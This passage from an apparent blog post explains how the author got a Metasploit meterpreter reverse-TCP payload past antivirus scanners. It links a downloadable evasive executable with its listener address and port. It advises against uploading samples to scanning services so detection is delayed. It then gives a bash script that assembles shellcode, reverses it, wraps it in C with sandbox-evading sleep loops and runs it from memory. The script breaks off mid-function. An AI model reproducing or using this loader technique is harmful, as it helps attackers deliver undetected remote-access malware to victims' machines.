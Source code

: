 So I add some sleep/for-loop to fool them. As mentioned earlier, you'd better try more find a slitely deferent way to fool them. It may work, but it may trigger other detection technichs.

After several tries and errors, I bypass all but Kaspersky. After several tries I know its not sandbox and signature. Then the story has been write earlier in this article.

The final bypass all report is [here](https://www.metascan-online.com/en/scanresult/file/df3906541f8846f9a5ef38c7e31505e9) You can download from [here](https://github.com/reverland/scripts/blob/master/exe/hahaha.exe) to check it(LHOST 192.168.56.102, windows/meterpreter/reverse\_tcp, LPORT=4444, md5sum listed is in metascan)

Another thing to mention, I just upload it to virusnothanks when I did my experiments, for I don't want to make the experiment uncerntainly. But now upload to anywhere is ok. If you want to do some experiments for several days, do not upload it to virustotal or metascan or viruscan and so on. You suspicious payload will be marked in one day.(Kaspersky really mark my payload in one day!)

I finally write scripts which generate random instructions for assemble language, encrypt or simply upsidedown shellcodes and automatic the whole process to facilitate my work. you can try one yourself. Similar to this one:

    {% highlight bash %}
    #! /bin/env bash
    nasm -fbin "$1" -o test.o
    
    cat >> test.c << EOF_FLAG
    #include <stdio.h>
    #include <stdlib.h>
    #include <windows.h>
    /* shellprogram.c */
    char code[] = 
    EOF_FLAG
    
    LEN=`wc -c test.o| cut -d' ' -f1`
    python upsidedown.py test.o
    od -tx1 test.o | cut -c8-80 | sed -e 's/ /\\x/g' | sed -e 's/^/"/g' | sed -e 's/$/"/g' >> test.c
    
    echo "\"\";" >> test.c
    
    cat >> test.c << EOF_FLAG
    int add(int);
    int main(int argc, char *argv[])
    {
      int i, len, s;
      char *p;
      i = 0;
    EOF_FLAG
    
    str='len = '${LEN}';'
    echo ${str} >> test.c
    
    cat >> test.c << EOF_FLAG
      p = (char *)malloc(len);
      for(i=0;i<100;i++){
      s = add(i);
      sleep(1);
      }
      for(i=0;i<len;i++)
        {
          p[i] = code[len - 1 - i];
        }
        int (*exeshell)();
        exeshell = (int (*)()) p;
        (int)(*exeshell)();
      }
    
    int add(int num)
    {
    static int sn;
    sn+=num;

[^1]: Example comes from [http://www.scriptjunkie.us/2011/04/why-encoding-does-not-matter-and-how-metasploit-generates-exes/](http://www.scriptjunkie.us/2011/04/why-encoding-does-not-matter-and-how-metasploit-generates-exes/)
[^2]: Thanks to the article on [Pentest Geek](http://www.pentestgeek.com/2012/01/25/using-metasm-to-avoid-antivirus-detection-ghost-writing-asm/#comment-513), however, nasm may a better choice. for there won't be piles of `db`s